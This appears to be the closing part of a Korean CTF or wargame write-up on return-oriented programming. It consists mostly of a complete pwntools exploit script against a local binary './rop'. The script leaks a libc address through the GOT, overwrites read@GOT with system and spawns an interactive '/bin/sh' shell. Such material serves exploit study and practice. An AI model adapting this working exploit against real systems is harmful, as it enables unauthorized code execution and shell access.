 결과

![image](https://user-images.githubusercontent.com/59410565/119018652-47e18000-b9d7-11eb-86ec-b555a339df0a.png)



+) 참고 : pwntools에서 제공하는 ROP 기능을 이용해 조금 더 간편하게 작성할 수 있다.

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
 
binsh = "/bin/sh"
 
binary = ELF('./rop')
 
#32bit OS
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
#64bit OS
#libc = ELF("/lib32/libc-2.23.so")
rop = ROP(binary)
 
print binary.checksec()
 
read_plt = binary.plt['read']
read_got = binary.got['read']
write_plt = binary.plt['write']
write_got = binary.got['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system']
writableArea = 0x0804a020
 
#Address info
log.info("read@plt : " + str(hex(read_plt)))
log.info("read@got : " + str(hex(read_got)))
log.info("write@plt : " + str(hex(write_plt)))
log.info("write@got : " + str(hex(write_got)))
log.info("read system offset : " + str(hex(read_system_offset)))
log.info("Writeable area : " + str(writableArea))
 
#ROP Code
rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaabbbb)
rop.raw(writableArea)
payload = "A"*62 + str(rop)
 
#Run
r = process("./rop")
r.recvn(10)
r.send(payload + '\n')
r.send(binsh)
read = u32(r.recvn(4))
system_addr = read - read_system_offset
rop = ROP(binary)
rop.raw(system_addr)
r.send(str(rop))
 
r.interactive()
```

